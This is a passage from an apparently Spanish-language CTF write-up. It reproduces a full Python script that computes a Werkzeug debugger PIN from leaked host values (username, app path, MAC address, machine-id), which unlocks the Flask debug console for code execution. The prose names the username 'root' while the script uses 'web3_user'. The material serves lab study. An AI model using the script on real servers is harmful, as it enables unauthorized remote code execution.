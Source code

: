 Efectivamente, para computar el PIN está muy bien esta [página](https://angelica.gitbook.io/hacktricks/network-services-pentesting/pentesting-web/werkzeug), este es el script que se nos comparte para ello:

```python wrap=false title="PIN Exploit"
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

El campo **username** es `root`, y la ruta del `app.py` la podemos encontrar al apuntar a una ruta que no existe:
